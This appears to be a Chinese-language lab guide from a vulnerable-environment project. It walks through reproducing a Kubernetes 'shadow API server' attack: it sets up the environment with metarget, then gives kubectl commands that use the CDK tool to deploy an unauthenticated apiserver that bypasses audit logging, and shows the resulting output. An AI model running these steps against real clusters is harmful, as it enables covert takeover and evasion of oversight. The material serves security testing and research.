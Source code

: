 # 部署K8s影子API Server

## 场景介绍

该技术来源于 ["RSAC 2020: Advanced Persistence Threats: The Future of Kubernetes Attacks"](https://www.youtube.com/watch?v=CH7S5rE3j8w)，思路是在拥有Master节点上的create pod权限时，可创建一个具有API Server功能的Pod，使得后续命令可以通过新创建的“shadow api server”进行下发，绕过K8s的日志审计，更加具有隐蔽性。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install k8s_shadow_apiserver
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`k8s-shadow-apiserver`的pod。

## 漏洞复现

下载漏洞利用工具[CDK](https://github.com/cdk-team/CDK)，将其传入`k8s-shadow-apiserver`pod中：

```
sudo kubectl cp cdk k8s-shadow-apiserver:/ -n metarget
```

执行以下命令运行工具（该命令会在kube-system命名空间下创建一个无需认证的shadow apiserver，可根据提示进行访问）：

```
sudo kubectl exec -it k8s-shadow-apiserver /cdk run k8s-shadow-apiserver default
```

查看执行结果包含以下字段则部署成功，也可通过运行`sudo kubectl get pods -n kube-sytem | grep shadow` 验证部署结果。

```
	shadow api-server deploy success!
shadow api-server pod name:kube-apiserver-cloudplay-shadow-r6r6rb, namespace:kube-system, node name:cloudplay
listening secure-port: https://cloudplay:9444
go further run `cdk kcurl default get https://cloudplay:9444/api` to takeover cluster with none audit logs!
```

注：复现后请及时清除相关资源。

## 参考文献

1. https://www.youtube.com/watch?v=CH7S5rE3j8w
2. https://www.cdxy.me/?p=839
3. https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver

